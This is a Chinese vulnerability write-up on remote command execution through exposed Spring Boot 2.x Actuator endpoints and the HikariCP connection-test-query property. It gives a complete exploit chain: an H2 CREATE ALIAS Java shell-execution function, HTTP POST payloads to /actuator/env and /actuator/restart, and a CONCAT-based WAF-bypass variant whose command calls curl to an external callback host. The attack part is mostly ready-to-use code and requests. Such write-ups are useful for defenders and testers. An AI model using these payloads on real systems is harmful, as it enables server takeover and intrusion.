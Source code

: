 Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
=========================================================

一、漏洞简介
------------

Spring Boot
2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

漏洞环境

> https://github.com/ianxtianxt/springboot\_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring
Boot集成，仅仅需要如下的一个dependency。

    <dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <scope>runtime</scope>
    </dependency>

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE
ALIAS创建一个java函数然后调用它，示例如下:

    CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
    CALL GET_SYSTEM_PROPERTY('java.class.path');

仿照这个，创建命令执行的java函数可以如下:

    String shellexec(String cmd) throws java.io.IOException { 
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
        if (s.hasNext()) {
            return s.next();
        } throw new IllegalArgumentException(); 
    }

那么RCE所需的SQL语句即:

    CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
    CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

    POST /actuator/env HTTP/1.1

    content-type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

    POST /actuator/restart HTTP/1.1

    content-type: application/json

    {}

命令执行的结果:

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorhikari配置不当导致的远程命令执行漏洞/media/rId25.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

    CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
    CALL EXEC('curl  http://x.burpcollaborator.net');

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind
RCE。

参考链接
--------

> https://xz.aliyun.com/t/7480\#toc-3
